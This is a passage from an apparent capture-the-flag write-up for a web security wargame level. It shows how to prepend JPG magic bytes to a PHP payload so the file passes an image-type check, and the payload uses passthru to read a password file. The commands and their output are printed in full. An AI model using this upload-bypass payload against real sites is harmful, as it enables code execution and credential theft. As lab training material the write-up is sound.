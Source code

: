 Now let's append our JPG signature `ffd8ff` to the beginning of our data
stream before we reverse it back into a PHP file.

```
$ echo "ffd8ff3c3f0a0a706173737468727528226563686f20636174202f6574632f6e617461735f776562706173732f6e61746173313422293b0a70617373746872752822636174202f6574632f6e617461735f776562706173732f6e61746173313422293b0a0a3f3e0a" | xxd -p -r > exploit.php
$ cat exploit.php
���<?

passthru("echo cat /etc/natas_webpass/natas14");
passthru("cat /etc/natas_webpass/natas14");

?>
```

And now to see if it passes our test..

```
$ php exif_imagetype.php
exploit.php appears to be an image
```

<img src='uploaded_exploited.jpg' width=500px>

Yippeeeee..

